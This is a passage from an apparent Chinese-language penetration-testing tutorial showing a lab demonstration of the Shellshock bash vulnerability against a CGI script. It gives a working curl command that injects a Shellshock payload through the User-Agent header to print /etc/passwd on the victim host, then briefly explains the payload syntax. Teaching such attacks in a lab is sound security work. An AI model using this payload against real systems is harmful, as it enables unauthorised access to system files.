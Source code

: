 我们按预期获得脚本的输出：`Example Page`。

![](img/8d58573d-be6f-4aa7-87f2-7295c2d34e32.png)

1.  现在，让我们通过使用 curl 向服务器发送一个恶意请求，以打印受害者系统中`/etc/passwd`文件的内容：

```
    curl -A '() { :;}; echo "Content-type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.104/cgi-bin/example.sh
```

![](img/286f6f8f-0d86-412b-8f02-2b5c9b1b92f7.png)

这是输出结果，但被截断：

![](img/f03f7090-e5cf-4b3b-9342-e28e6ab23255.png)

我们可以看到攻击者系统上的输出，展示了如何利用 Shellshock 漏洞远程访问受害者的系统。在前面的命令中，`() { :;} ;`表示一个看起来像函数的变量。在这段代码中，函数是单一的`:`，它被定义为什么都不做，仅仅是一个简单的命令。

1.  我们将尝试另一个命令，查看受害者系统当前目录的内容，如下所示：

![](img/503b15b4-3af1-4bdc-9bf5-6930547ef025.png)

我们可以在前面的输出中看到受害者系统中`root`目录的内容。

# 它是如何工作的……
